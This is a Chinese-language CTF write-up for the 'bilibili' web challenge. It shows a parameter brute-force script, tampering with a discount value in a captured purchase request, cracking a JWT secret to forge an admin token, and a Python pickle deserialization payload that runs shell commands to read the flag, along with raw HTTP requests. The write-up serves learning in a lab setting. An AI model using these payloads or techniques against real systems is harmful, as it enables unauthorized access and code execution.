 # bilibili

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=e443abc9-92d0-4db2-a44b-823e94a108ef_2)

这题真的是……太草了。

进入网站，我只能说低估了出题人的想象力。（首页那个视频看了好多遍，刻在dna里了还是想看:D）正经起来，有一句提示说要买lv6。翻一下，没看见lv6的小电视啊。不过在翻页后发现url的page参数改变，可以爆破这个参数。检查元素发现lv4的小电视名字叫lv4.png，那lv6的小电视一定叫lv6.png了，根据这个线索爆破。

```python
import requests
target = "http://61.147.171.105:61450/shop?page=%d"
for i in range(500):
    res = requests.get(target%(i)).text
    if "lv6.png" in res:
        print(target%(i))
        break
```

得到page参数为181。注册一个账号，去买个看看。一看发现根本买不起。题目描述说有逻辑漏洞，看逻辑漏洞怎么着都要抓个包看看吧。点击购买，在购物车结算时抓包。

```
POST /shopcar HTTP/1.1
Host: 61.147.171.105:61450
Content-Length: 116
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:61450
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:61450/shopcar
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _xsrf=2|a3eb2d4a|221d581f374175d18ce6420b72a10aca|1665803998; JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo; commodity_id="2|1:0|10:1665804035|12:commodity_id|8:MTYyNA==|dcb1ad383cf50d5af34398456446f58cf5e919cabaf7c42c7430c9fd418d620e"
Connection: close

_xsrf=2%7C5a31e538%7Cdbc7906dce9bbda3753c8a798b7bc2b8%7C1665803998&id=1624&price=1145141919.0&discount=0.8
```

发现post参数有价格和折扣。改价格发现没用，那就把折扣改成0.00000000000001，结果就买到了。重定向到/b1g_m4mber页面。然而提示只有admin可以访问。一般ctf判断admin用什么呢？cookie之类的东西。看看cookie，只有可能是JWT了。[在线](https://jwt.io/)查看jwt的值。

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "a"
}
```

把username改成admin试试，发现不行。那就是需要secret key了，用[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)爆破key值，得到1Kun。回到上面那个网站，填写key值，得到的内容粘贴进原来的jwt，刷新后就变成了管理员。继续检查元素，发现给了源码。

```html
<div class="ui text container login-wrap-inf">
<!-- 潜伏敌后已久,只能帮到这了 -->
<a href="/static/asd1f654e683wq/www.zip"><span style="visibility:hidden">删库跑路前我留了好东西在这里</span></a>
```

点击链接，下载到源码。既然我们在admin界面，优先看Admin.py。

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

原来python里也有[反序列化](https://misakikata.github.io/2020/04/python-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/),标志就是pickle库。pickle.loads加载一个之前被pickle.dumps后的序列化字符串，重点在于反序列化时会调用加载对象的魔术方法__reduce__。举个例子。

```python
import os
import pickle
class test(object):
    def __reduce__(self):
        return (os.system,('whoami',))
a=test()
payload=pickle.dumps(a)
print(payload)
pickle.loads(payload)
```

我们dumps的对象a是test类的实例，test类定义的__reduce__方法会执行whoami命令（__reduce__返回值第一个是要调用的函数，第二个是调用函数的参数）。那在loads的时候，就会调用whoami命令。题目的情况和这里差不多，pickle毫无过滤就loads了become数据，那就可以命令执行了。准备payload，注意服务器使用的是python2，因为给的源码也是python2，所以用python2构建payload。先ls，知道文件名后cat flag。

```python
import urllib2
import pickle
class A(object):
    def __reduce__(self):
        # a = "__import__('os').popen('ls').read()"
        a = "__import__('os').popen('cat /flag.txt').read()"
        return (eval,(a,))

print(urllib2.quote(pickle.dumps(A()))) 
```

然后在b1g_m4mber界面点击“一键成为大会员”，抓包改动become内容为读取flag的对象。
```
POST /b1g_m4mber HTTP/1.1
Host: 61.147.171.105:61450
Content-Length: 200
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:61450
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:61450/b1g_m4mber
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _xsrf=2|a3eb2d4a|221d581f374175d18ce6420b72a10aca|1665803998; JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
Connection: close

_xsrf=2%7C82de3f5d%7C03284a08167467c6add3501c539418dd%7C1665803998&become=c__builtin__%0Aeval%0Ap0%0A%28S%22__import__%28%27os%27%29.popen%28%27cat%20/flag.txt%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

在[buuctf](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day1%20Web2]ikun)又遇见这道题了，发现另一个[wp](https://blog.51cto.com/u_15065851/3459481)给出了pickle库常用的几个函数的补充。

```
（1）pickle.dump(obj, file, [,protocol])

        函数的功能：将obj对象序列化存入已经打开的file中。

       参数讲解：

    obj：想要序列化的obj对象。
    file:文件名称。
    protocol：序列化使用的协议。如果该项省略，则默认为0。如果为负值或HIGHEST_PROTOCOL，则使用最高的协议版本。

（2）pickle.load(file)

        函数的功能：将file中的对象序列化读出。

        参数讲解：

    file：文件名称。

（3）pickle.dumps(obj[, protocol])

       函数的功能：将obj对象序列化为string形式，而不是存入文件中。

       参数讲解：

    obj：想要序列化的obj对象。
    protocal：如果该项省略，则默认为0。如果为负值或HIGHEST_PROTOCOL，则使用最高的协议版本。

（4）pickle.loads(string)

       函数的功能：从string中读出序列化前的obj对象。

       参数讲解：

    string：文件名称。

     【注】 dump() 与 load() 相比 dumps() 和 loads() 还有另一种能力：dump()函数能一个接着一个地将几个对象序列化存储到同一个文件中，随后调用load()来以同样的顺序反序列化读出这些对象。
```

## Flag
  > flag{dfe54e6fe1e34f1e8fb03c8b50e963bd}